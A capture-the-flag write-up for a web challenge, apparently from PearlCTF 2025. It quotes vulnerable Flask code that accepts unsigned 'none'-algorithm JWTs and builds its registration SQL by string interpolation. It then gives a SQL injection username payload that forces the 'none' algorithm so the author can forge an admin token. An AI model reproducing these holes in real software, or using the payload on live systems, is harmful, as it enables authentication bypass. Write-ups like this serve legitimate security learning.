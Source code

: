 If the JWT algorithm is set to 'none', then the application doesn't verify the JWT's signature.
Then, we can just the `admin` attribute to true to get the flag.

```python
def decode_access_token(token):
    try:
        user_data = jwt.decode(token, options={"verify_signature": False})
        user = user_data['user']
        algorithm = User.query.filter_by(username=user).first().jwt_algorithm
        if algorithm == 'HS256':
            user_data = jwt.decode(token, app.config['JWT_SECRET'], algorithms=[algorithm])
        elif algorithm == 'none':
            user_data = jwt.decode(token, options={'verify_signature': False}, algorithms=[algorithm])
        else:
            user_data = jwt.decode(token, algorithms=[algorithm])
    except:
        return None
    return user_data
```

This doesn't exactly work because the algorithm used for the JWT is stored with the user's information in the database when they first register.
However, there is an SQL injection in in `register()`.

```python
@app.route('/register', methods=['GET', 'POST'])
def register():
...[SNIP]...
            try:
                db.session.execute(text(f'INSERT INTO User (username, password_hash, jwt_algorithm) VALUES ("{username}", "{bcrypt.hashpw(password.encode("utf-8"), bcrypt.gensalt()).decode("utf-8")}", "HS256")'))
                db.session.commit()
...[SNIP]...
```

We can terminate the username early then insert our own hash into the table. The hash doesn't really matter in the case, as long as the algorithm is set to "none".
When this user is inserted into the table, we can craft our own JWT.

```
test1", "", "none")--
```

![](/assets/img/2025-03-8-pearlctf-2025/quote-sqli.png)
